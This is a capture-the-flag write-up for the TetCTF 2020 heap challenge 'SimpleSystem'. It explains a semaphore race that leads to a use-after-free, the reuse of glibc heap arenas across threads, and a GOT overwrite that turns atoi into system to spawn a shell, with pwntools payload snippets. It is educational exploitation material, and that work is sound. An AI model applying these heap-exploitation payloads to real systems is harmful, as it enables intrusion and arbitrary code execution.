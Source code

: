 # TetCTF 2020 - SimpleSystem
## Introduction
- **Given files:** `SimpleSystem`, `libc-2.23.so`.
- **Category:** Pwnable
- **Hint**: `do you know an arena can be reused when arena list is full ?`
- **Summary:** A glibc 2.23 heap challenges that is very unique. It is a simple system (as the name suggest) that we can signup, signin and use its functionalities, it utilizes multithreading to implement them. The bug is in the synchronization implementation of multithreading, and the exploitation relies on how glibc handles `malloc()` on multithreaded environment (although there is another intended bug in the authentication process, but it is not needed).

## TL;DR
1. Analyze the executable -> Found that after signing in, if we go into sleep mode, then signout & delete, then signin again, we can signin to a deleted session due to a failed implementation of synchronization `semaphore`.
2. Create a lot of users, signin to 1 of them and use the above bug -> leak `libc` when `show_info`.
3. Signin to 8 others and put them to a long `sleep mode` -> Use maximum number of `heap arenas`.
4. Use the above bug on the 1st user again -> the `bk` pointer of an unsorted bin actually set the `is_admin` flag to `true`.
5. Create 7 notes to fill up the other `arenas` -> 8th note will be in `main arena` -> Overlap on `session` itself.
6. Overwrite `session->fullname` to leak `heap`.
7. Edit note to overwrite `session->head`, edit again to overwrite `atoi@GOT` into `system()`.
8. Input `sh` into choice prompt -> Get shell.
   
## Analyzing the binary
On startup, the program gives us 2 options:
- `Signup` to create an account. We will be asked for a `fullname`, a `username` and a `password`. If they are valid, the `username` will be used to create a directory underneath `creds` to store 2 files `u.dat` and `p.dat`, with `u.dat` storing the full name and `p.dat` storing the `MD5` hash of the `password`.
- `Signin` to signin to an account. The program will ask for the `username` and the `password` to check if they exist. If they do, it will lookup a `session list` to see if that user is currently having a session or not, if not, it will create a session for it. It also checks if the `username` is `admin` or not to set the `is_admin` flag. The `session` struct is as follows:
```c
struct str_session
{
    char padd[8];
    __int64 is_admin;
    __int64 sess_id;
    pthread_mutex_t mutex_lock;
    char* fullname;
    char username[0x30];
    __int64 note_id;
    str_note* head;
    str_note* tail;
}
```

*Note: Actually, as the author `@d4rkn3ss` reveals, there is a path truncation bug in the authentication process that can let you login to anything and read any file. With this you can leak every addresses through `/proc/self/maps`, leak `admin`'s hashed password to crack it, and leak the number of CPUs through `/proc/cpuinfo`. But I still managed to solve this without using this bug.*

After logging in, we have 6 options to choose from, each of these actions will be run on a separate thread, synchronized by a `mutex_lock` within each `session` and a global `semaphore`:
1. `Add` a note. This can only be performed as an `admin`, the note size can be up to `0xFFFF` and notes are stored as a linked list.
2. `Edit` a note. This also can only be performed as `admin`.
3. `Show` user info. This shows the user's fullname and notes.
4. `Sleep` mode. This puts the current thread to `sleep()` for the inputted amount of time (in seconds).
5. `Signout & delete`: signout of the current `session` and delete it, freeing everything its own.
6. `Signout`: signout of the current `session`, but still keep it in the `session list`.

This is the struct of a `note`:
```c
struct str_note
{
    str_note* next;
    __int64 size;
    char* content;
}
```

The bug here is that even though in `signout & delete` the program tries to acquire the `mutex_lock`, it doesn't call `sem_wait()` on the `semaphore` on the way out and goes straight into `sem_destroy()`. This way, if we go into `sleep mode`, the `mutex_lock` will be acquired, after that when we choose to `signout & delete`, this thread must wait for the sleeping thread to unlock its `mutex_lock` before it can execute, but the thing is on the main thread after `signout & delete`, it doesn't wait for the `semaphore` of the sleeping thread to be decremented before proceeding, therefore it will signout to the main menu on the *main thread*, while the *deleting thread* is still waiting for the `mutex_lock`. In short, we have 3 threads here:
- the *sleeping thread* holding the `mutex_lock`, incrementing the `semaphore`.
- the *deleting thread* waiting for `mutex_lock` to be released to proceed.
- the *main thread*, which should be waiting for the `semaphore`, is instead ignoring it and signout to main menu.

Using this bug, we can: `signin -> sleep -> signout & delete -> signin` to sign back into a deleted session. Notice that the `is_admin` flag in the `session` struct is located at the 2nd `QWORD`, it will be overwrited by the `bk` pointer of an unsorted bin, therefore we have a "fake" `admin` in this deleted session. Also the `fullname` chunk is freed, so we can `show` info to leak the `libc` address from it.
```python
# Leak libc with synchronization bug -> UAF
signin(user[0], user[0])
sleep_thread(1)
signout_delete()
signin(user[0], user[0])
show()
r.recvuntil("Your name: ")
l.address = u64(r.recv(6) + b'\0'*2) - 0x3c4b78
log.info("libc: {}".format(hex(l.address)))
```

## Exploit the multithreaded heap
The exploitation path is quite clear then: if we can `add` a note exactly the same size as a `session` struct, then it will be allocated add the freed `session` we are currently in and we can overwrite everything in it. But here is the big problem: Each thread will `malloc()` into its own `heap arena`, so initially, it seems like there are no way to `malloc()` into the `main arena` from another thread. 

That's when the **hint** comes in handy. By googling about this multithreading heap management stuff, I came into [this doc about MallocInternals](https://sourceware.org/glibc/wiki/MallocInternals). It says that the maximum number of heap arenas is `8 * #processors`. After all the arenas have been allocated, threads will try to reuse one of the other arenas. This is so nice because we can use `sleep mode` to create a lot of hanging threads, then try to `malloc()` into the `main arena` in the next (the author is nice enough to even make a call to `malloc()` in `sleep mode`). That's exactly what I did, even though the intended way is to read `/proc/cpuinfo` to know the number of processors, I just assumed that it's 1 and try it out (if it's not I could always bruteforce it, can't be too big anyway). Therefore I created 8 sleeping threads:
```python
# Fill all 8 created arenas with 8 notes
for i in range(1, 9):
    #print(i)
    signin(user[i], user[i])
    sleep_thread(i + 100)
    signout()
```

Now the next `malloc()` should be into the `main arena`, but not really. The way allocation works after filling the arenas is weird. I haven't read any resource about it yet, but as I experimented it, it seems like the program cycles through each of the arena on each thread to make new allocations. I'm not really sure about this, but what I did was doing trials-and-errors and I found that if I create 7 dummy notes, the 8th one will by in `main arena`, also set the note size to `0x90` to be the same as a `session` struct.
```python
# Fill all 8 created arenas with 8 notes
r.sendline("1")
r.sendlineafter("Size: \n", str(0x90))
r.sendafter("Content: \n", "0"*8) # note 0
for i in range(1, 8):
    add_note(0x90, chr(i)*8) # note 1 -> 7

# Next note will be in main arena, overwrite freed session -> overwrite full name to leak heap
payload1 = p64(0) + p64(1)
payload1 += p64(0) # sess_id
payload1 += p64(2) + p64(0x100000eee) + p64(0)*3 # mutex lock
payload1 += p64(0x603190) # full name -> leak
add_note(0x90, payload1) # note 8
show()
r.recvuntil("Your name: ")
heap = u64(r.recv(4) + b'\0'*4) - 0x19f0
log.info("heap: {}".format(hex(heap)))
```

I used this note to overwrite `fullname` to a pointer to the `session list` (the binary has `No PIE`) to leak `heap` address. I also had to make sure that the other overwritten fields of `session` are acceptable by the process, especially the `mutex_lock` one.

## Overwrite GOT and get shell
Now I can use `edit` to overwrite `str_session->head` to the start of `session` struct, where I created a fake `note` whose `str_note->content` points to `atoi@GOT`. Then editting this note again to overwrite `atoi@GOT` to `system`. For the next prompt the make a choice to the options, I could just pass `sh` to it, then `atoi("sh")` will be called, which actually is `system("sh")` now.
```python
# Edit to point to atoi@GOTS
payload2 = p64(0) + p64(0x90)
payload2 += p64(b.got["atoi"]) # sess_id
payload2 += p64(2) + p64(0x100000eee) + p64(0)*3 # mutex lock
payload2 += p64(0) # full name
payload2 += p64(0)*6 # username
payload2 += p64(1) # note_id
payload2 += p64(heap + 0xe90) # head
payload2 += p64(heap + 0xe90) # tail
edit_note(0, payload2)

# Edit again to overwrite atoi@GOTS
edit_note(0, p64(l.symbols["system"]))

# Get shell
r.sendlineafter("choice: \n", "sh")
```

The flag is:
```
TetCTF{vina: *100*50421406550161#}
```

## Appendix
The full exploit is `a.py`.